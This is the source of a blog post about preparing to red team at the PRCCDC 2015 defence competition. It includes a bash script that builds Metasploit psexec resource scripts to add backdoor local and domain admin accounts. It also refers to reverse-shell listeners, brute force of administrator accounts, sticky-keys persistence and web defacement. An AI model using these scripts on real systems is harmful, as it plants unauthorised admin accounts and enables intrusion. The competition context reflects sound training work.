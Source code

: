 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
category: 
year: 2015
month: 4
day: 15
published: true
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition.
---
```

     
<div class="row">  
     <div class="span9 columns">


<p>I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

<br><br><h3>Kali</h3>
<p>I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found <a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh">here</a>.


<p>Then, I made some manual tweaks:
<ul><li>Change root password</li>
<li>Enable autologin within <code>/etc/gdm3/daemon.conf</code></li>
<li>Disable screen lockout</li>
<li>Add Leafpad and Screenshot to taskbar</li>
<li>Alias <code>msfconsole='msfconsole -r /msfconsole.rc'</code></li>
<li>Add <code>* * * * * /payload_gen.sh</code> to crontab</li>
</ul>
<p>Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found a list of the top 10,000 US last names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

<p>I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.
{% highlight bash lineanchors %}
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
{% endhighlight %}
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh">Source</a>

<br><br>
<h3>Metasploit</h3>
<p>Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc">intel.rc</a> - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc">bounce</a> - Restarts a reverse_tcp listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc">bouncessl</a> - Restarts a reverse_https listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc">local500.rc</a> - Sets up for a brute force of the built-in 500 accounts. Modify with <code>file:///path/to/wordlist</code> on line 4.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">winpersist.rc</a> - Sets up sticky keys, utilman, and display persistence using psexec_command.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">msfconsole.rc</a> - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above


<br><br>
<h3>Commands</h3>
<p>The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan <a href="http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html">here</a>. 

<p>In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 




<br><br>
<h3>Defacement</h3>
<p>Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
<img src="{{site.url}}/assets/prccdc2015-defacement.gif">
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement">Source</a>

<p>Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     

<br><br>
<h3>Prepping for Next Year</h3>
<p>As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:
<ul>
	<li><b>ndiff to monitor environment</b> - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.</li>
	<li><b>Low-hanging fruit scans</b> - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. </li>
	<li><b>Script to remove users from admin groups</b> - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.</li>
	<li><b>moar lulz</b> - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...</li></ul>

<p>If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
     
     </div>
</div>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
